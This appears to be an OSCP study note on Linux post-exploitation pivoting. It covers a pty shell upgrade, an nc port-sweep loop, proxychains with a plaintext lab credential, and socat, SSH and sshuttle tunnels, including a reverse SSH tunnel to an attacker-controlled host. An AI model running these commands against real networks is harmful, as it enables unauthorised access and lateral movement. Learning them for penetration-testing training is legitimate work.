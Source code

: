 ```yaml
---
{"dg-publish":true,"permalink":"/oscp/k-port-redirection-and-tunneling/1-linux-port-forwarding/"}
---
```


------
## Tunneling Theory + SOCKS:

Port forwarding may need tty capabilities on target machine, so import with python:
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Enumerate hosts to tunnel to without nmap:
```
for i in $(seq 1 254); do nc -zv -w 1 172.16.50.$i 445; done
```

Confirm the tunnel is working from another shell by listing listening ports:
```
ss -ntplu
```

Force packets over SOCKS with Proxychains:
```
#Edit /etc/proxychains4.conf to add the socket to the end:
socks5 <ip> <port>

#Prepend "proxychains -q -f <conf-file>" to the command to run, such as:
proxychains -q -f /etc/proxychains4.conf smbclient -L //172.16.50.217/ -U hr_admin --password=Welcome1234
```
- -q silences any proxychains output
- Might use socks4 depending on versioning
- Won't work on statically-linked binaries
- Edit **tcp_read_time_out** and **tcp_connect_time_out** values in the conf-file for faster connections.
--------
## Socat port forwarding:
```
socat -ddd TCP-LISTEN:<listeningport>,fork TCP:<forkip>:<forkport>
```

------------
## SSH Local Port Forwarding:
```
ssh -v -N -L 0.0.0.0:2345:<forkip>:<forkport> <sshuser>@<passthroughip>
```

--------
## SSH Dynamic Port Forwarding:
- Allows for multiple end-sockets at wherever packets can be received
- Uses SOCKS as proxying protocol
- Only limit is that packets have to be properly formatted by SOCK-compatible client software
```
ssh -N -D 0.0.0.0:2345 <sshuser>@<passthroughip>
```

-------
## SSH Remote Port Forwarding
- Outgoing connections are often much less filtered
- If we can't control and bind to any ports on the target machine, instead we can SSH out and bind to a attacker SSH server
1. Open SSH server on attacker machine:
```
sudo systemctl start ssh
```
2. Check server is listening:
```
sudo ss -ntplu
```
3. Set up SSH tunnel back to server on target:
```
ssh -N -R 127.0.0.1:2345:10.4.203.215:5432 crabfeather@192.168.45.180
```
4. Force packets over SOCKS with Proxychains:
```
#Edit /etc/proxychains4.conf to add the socket to the end:
socks5 <ip> <port>

#Prepend "proxychains -q -f <conf-file>" to the command to run, such as:
proxychains -q -f /etc/proxychains4.conf smbclient -L //172.16.50.217/ -U hr_admin --password=Welcome1234
```
5. Win!

---------
## SSH Remote Dynamic Port Forwarding:
- Working as Remote PF with functionality of dynamic tunneling
- Available since OpenSSH 7.6 in Oct 2017 -- required client's version
- Works with -R flag but with only one socket, and only needing port which defaults to loopback address
1. Open SSH server on attacker machine:
```
sudo systemctl start ssh
```
2. Set up SSH tunnel back to server on target:
```
ssh -N -R 2345 crabfeather@192.168.45.180
```
3. Win!

------
## SSHuttle:
- Turns a SSH connection into something similar to a VPN
- Requires root privs on SSH client and Python3 on SSH server
- Routes all types of traffic, including UDP and ICMP using iptables
- Also less packet loss (apparently)
```
sshuttle -r database_admin@192.168.50.63:2222 10.4.50.0/24 172.16.50.0/24
```
